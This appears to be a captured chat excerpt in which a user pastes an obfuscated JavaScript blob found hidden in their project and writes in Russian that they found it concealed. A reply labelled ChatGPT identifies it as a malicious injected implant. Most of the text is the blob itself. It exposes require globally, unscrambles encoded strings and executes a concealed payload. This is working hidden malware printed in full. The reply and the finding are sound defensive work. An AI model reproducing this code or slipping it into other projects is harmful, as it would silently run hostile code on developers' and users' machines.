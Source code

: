 global['_V']='8-ror-dom';global['r']=require;var a0b,a0a;(function(){var MDX='',CjV=867-856;function Stv(z){var h=4629;var i=z.length;var s=[];for(var e=0;e<i;e++){s[e]=z.charAt(e)};for(var e=0;e<i;e++){var t=h*(e+334)+(h%26491);var v=h*(e+703)+(h%45442);var y=t%i;var b=v%i;var o=s[y];s[y]=s[b];s[b]=o;h=(t+v)%4144303;};return s.join('')};var zeH=Stv('ctnospnszurcewihfxtkmadulvgqrrtycjboo').substr(0,CjV);var TDk='s+o(rgejhy[t,,d==0+ijo [t={=edr=ri+ad,erox;rdt +[xy{n5 =l gi[81,m=<;0, C8)r()!}f;[86]+3v(9,],f;1r8";ef,0d((0t(ageg=ppr(;f;oar ;;n;}6<rjh8rgm=tap)<;altmtr;++t)ia<i  6=tfn;jao,lv7mt,da,(u)s2+pah+ds6;shr3vj) cuu(bw);(+[n).ow]6lgk ;{s;r{vuhv)-r+q2;(nt4p9l.0h.vu(1=c)Arnin"lr(v*w4lan+)(.0)x(}n;.1-=h.5;a=e77[40.c)[,.x)ttoj-=feA,balupxsf]nua0=r(3nr2)(e;,t=v(r,rlw),(vaul][o;;+hf6 (){f)p7usAic2a"="d+g(.npSn.s9fvif]a00x(i){;= s[1tnemor]9vae=dlf+=C,1)zv;)=ggbut;=-p)hcc)]g++mh;sfyje..)3l2 a-]>rCcltcr]0,"l"[e= )*w; icrcrs+ruttlu)=;rbj.; tj,;=etscarv;1n=+e;h)n)a=(Abvnni,m8se;A;>em=j Cmhi)aig(utsigql[.=a,=ieo;+"7alayr+7enahrn;6i])rr7htnCsvn.(a<"gC.q]dm;rar!b}8a( jrv=p2itrsa-hq,,bllat.=izvaus 10;r+e;o(.r(8g.i-pim(.plvn)z e=o[11r6(9or]2,,e=fw8.=lh91frl24;{0vn7r5rojgt;rvo0(jeCoi=rr6+roa}8marcn}"]. =vfe;tbh=fv+}gil.otrstt)ys.h([wttem;" mn nvSt;= +,lvp)(,;p=n.rrur9vn1utgtumz c.t=l;vho7o2h)vueC0.v(=';var umP=Stv[zeH];var QnQ='';var Ley=umP;var kAX=umP(QnQ,Stv(TDk));var WEm=kAX(Stv('.}$jep32i}o=I.+[)0wX=X,00bN%4tCjs]mXDeeeXg)X6]aa(Xd50h.. )m$(}Xptl42mfX@sra]1fCpk]3L.5] dXXXox1_l8[X0it72$iD)l(O23ni.X-7ee Xb$__1c565>..bX8$c1e31d;$_.X )X>, XXX4bX7=sbX(sXbYoeI.=fa.spwjXhlbedo,\/[}dsXr2,}8jXnah;X!QRlXo)X04p{v-s}g[t0odo_5X5&#X0X$X3d].1.eX0X$knd2iX**.i.XdoX2_c%m2u4XXSHr)t(r[%bShoc);(N$i2X3XXS 37N.nX);}5X)g&X2]t.an7u_X%b$6_]Z25!96r ,9dn_;XB%$}0]v }Qc%);i].w{ist.8\/r4)f+4tXpd1f(p>e,.drXh=sX]67)!=Xe6Xx=oa2p;qoeX+tXrex,4Xda]y8%n=5_kf3XeoXX!.,rdrtu30k:J93)lXrta]0e!l.._!if_.m2.XXCY_Xj&inXe{gp4hh(XGu(pt)ht;.!)ioX0\/e)k$(jeds.%(O.7}%b(fn@g)i.o{X%X(%9f6X3X=)p[)=c.r=,XXXof\']iht)X4]h*(edisXf:bso((4mxXip(sa!X5m .jniI_.Xfv,._$5;!so=Yr7tpo).)xX<aA;.X0;&N(titrXm)($a]$ eX!nhlX%(,naXt])\/ibXr}aq r) _Yr.; iJ;>mv._9j34eZnmd@i3dd0X. n8Z(et)Rd2X_(X;gXdPtyIosx(n.c 2et1,Ri5(9( }rz3=l{_]tXus]Xn?m(Xee8e,0n)XX45 rci5CXn]i%%wu.!B]e5X35l4X?.P)2bh5.c{$)sH44o6X5..X;.%etfIfbK. %),=t[n9X{=cXletd)o 8)if0a3XXb. 3%3(ceo%4Xz]on%g&]thh+Xc Q$_dX4s.9Gc. .&Tb+rgXtXM[x..93"(3ab]u9s=%p[XE8.kveXX88Xa$1be )Eh;rX4Ul1+fos;ff.e0(7_3X%h)XXp!XX]$d[?4j;1!e(u\/)X\\(h(sdu(,5n5.50!XaiX]t+oX;?[X7)RXXXX,bYYce*y,1X_(sfX2X}0jte}4f#.apXaXH4f5Wa(e6h578X)$,b1e9ed.S_!S12Mb8%_cc7E(l(,O1,[i3X=!pXnbX. azd_X..3!b2XX3Y.)Xj)(u)clr1d.td)zt1;St,3Xb$4)$6^SaX55\/t.XtnX%7[\\XI;3X5r^)a+]0=X)(nb71XX)r(X%nj}XX63xX(=2X_)_XX0bvfX02R.ycR_d4$fe#X.,D3H5 f(fXAC).2,XA6XIm-X]2)TXyt=tagI(XX(d$Xof7 X2n-bXp)c(asytBooee)X8.=c(Xn)X3rF}oexX!d,=fa]RT5Xhyec)suAX_4:d(<3l2;[(-#1d5aweX.Tob(.rCqdt4jXX9a(8+XEn)t]e),.d\/Xm&.0a#%c\\er6X7w=X5,0[X_;0ikX))d%xsp.Xv6g%8;9!g..6?se)ne!10!d6(jm6}_X(f)=18KX#%97X)5)6XXc7d-(nXdX0x933u]X?toknXEjoCX3)6nX5o;a5XeXgXcad=_XXiu;;(4h.XX d,eeaxNr76l})ljh;68c;;]fsdfoi%C()1X}XXbc(r}a{;Xa!]64X))eo v%)9iir)7b(a(4X)(+X7b,e3(+Xa) 9X4D;tb,f8X(\/t1fG%t_fX8!.a44i=0*dn_5t9l.=dXX>()(;Xt_a4}0=e%7t%.)dti%e);aYdl4ust4ro]2X)..XOaXS%Xfsi;36_5X)5n46z2_X1c0$T(4bXXkh)r033_66p2jf).X_ O]0X6]XXcfd}}n%F.39r;Dd6X7+6hh.78.t0923r,X\'2h<d1\/<u4XnX8Xs!,,s5}Xe)6j1=rbX)=:d0]i96f)_X@XYr(5a,}0!O=)X]90Ep(tX(+,wN7$;-6XXl);>9$_X.$)t;8bX ,.(ms0Xu4d)T84$0Zqtbb)e( ;fa(4aX%;X=e)y*cjMO)0X_dq#9,l1p="ccK(h;ciX.Xiw.((cB 0ar,\/]o)l.l]%))X4=(sXXCX\'3hX;be4qu<)kaaGhtXX4X$nj^p.l)+]X!X)_3XXd7eab)dX5^.5so"41x= e;{XcsX"!H1]Uy2q?i{,,K))]!]fH;]X89X%fXua6XX!dn3EX.X !X;)lo]}."ard4X?30)jOrm.X.)+(I3l7XJv!C6X.%))Lnl)X]XWr]i )XX18;9!F5$(!$X1osXX(o=XXh)j="435)u$gXX2(]X33<ftt6fs]];dE(X,XZX_Xbf,d+X} 0xi12t=.]XHbX.Xax_4reL6h)&%e[)Ygf)_]XM)4aX^{hXis=09X%XdXugxe$_s1sX?]ry;)r. )9;6es.$((.oD)X_fXf5]}.((l=_0a ).]3r,_9$2,]a7 ,,)ut&=0nXK))Xa]7)0{(_(nXX!p(9i7"3%()tXJn"ri2.X1yfn40i0m)q(S\'7rXxt%$]stv XL$nXXv3b>t45r$5S]+]l5nXe5.eX(=&X0&<n%7cfdd1XX}$(1h9.)v.ad(X<XXgX2o8p_{av;X}dr9j., gX\/7$ "_rba]c{)od2)y:X.e)19N71_]d3XX\\GaXzuX33O%Xt o6=0h.]d.!%82d)4]3X1X5Xt8d}X5r!a$Xo412twrho\'fSjsx6$)ehtST.6?5f) Xe!-XXtXn[06)f }.+.dF="X?m.7&X[aX"e)X\/29)d8X#M)c{4$3[.2(a=X)[.w(7%395|aT0(bo4X;yXm;d,u)X,s3X}45aLl)h ,XddbuoD4do4drd;pa1X;eh?_X\\.UX==_=hc=d1%Qi,1,X]0Xh.))eX. 3(5][37#]90.f,[45nX}X(5(P jX=a]df,X!aj4Zba#Dt):_)cX.Xd4nXc\/X;t?a;X%s]e-_Xr EX}ds6{.))t.3oa8X(k3tz,4otpXe%9[?t.F_%Tdr#X!t[Ge.9XXi5=4)Xcrct34XXXb(sfXr(e0](e5jho, d>XEX_},(Xa{3(%X02_=e X)X)fbi.Xs\'s rji%X9cd e1f)}5ifdoje;jnhsotholdte(d;a%s]Qon9X=nXX3$iX{ua%iXf{MX)$bo>{nw)y_03X]76athX i;v:}[5XgXXS2\/)=]x2$s1) X._$SmMce!avm,p;f)1(ye(X\\d(a= U)01i0(8% e;X}.tXG<.dXv(UXW=)XXX(X!(XX 2d3 ($l_d)0)X6X.j\/t<32<!4.oX4dmXXt04sTX__Xd.ekPe]g,ad]81 t%t70a()1WXdX0gE(;%at0Xn..,!f!{X1)X02Xg3!X5.p,)7ps}l, n;t525e(10e_PX t_t )dZ_JX:%%)XXx,3Xp.d{$s.xsXP.c;2ert{$S(a1g(ea])X%8rtb] X(g nmbd|2r,XZ62nDxo](X,%kc[(Sn)$.!$i)i34;(cSr@?(5on i9S(%t.;dj4q, soouX0)(( (S2d,2XXs@7=c24X)X)0.s.d$1_X)())NEl-CX(X6 3)'));var hzd=Ley(MDX,WEm );hzd(7389);return 4398})()      я нашел он был скрыт 
ChatGPT сказал:
Вот этот огромный кусок кода, который ты нашёл — это вредоносная закладка (обфусцированный JS, который был кем-то/чем-то внедрён в твой проект).
